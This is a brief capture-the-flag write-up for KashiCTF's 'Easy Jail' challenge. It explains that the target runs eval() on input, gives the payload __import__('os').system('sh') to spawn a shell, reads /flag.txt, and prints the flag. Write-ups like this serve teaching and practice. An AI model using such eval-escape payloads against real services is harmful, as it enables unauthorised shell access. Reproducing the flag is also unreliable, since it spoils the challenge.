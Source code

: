 # Easy Jail (100 pts)

![EasyJail](img/easyjail.png)

Analyze the code, you will see that it run `eval()` directly, so I just need to `__import__('os').system('sh')` then `cat /flag.txt`

`Flag: KashiCTF{3V4L_41NT_54F3_SRZnf6S7}`
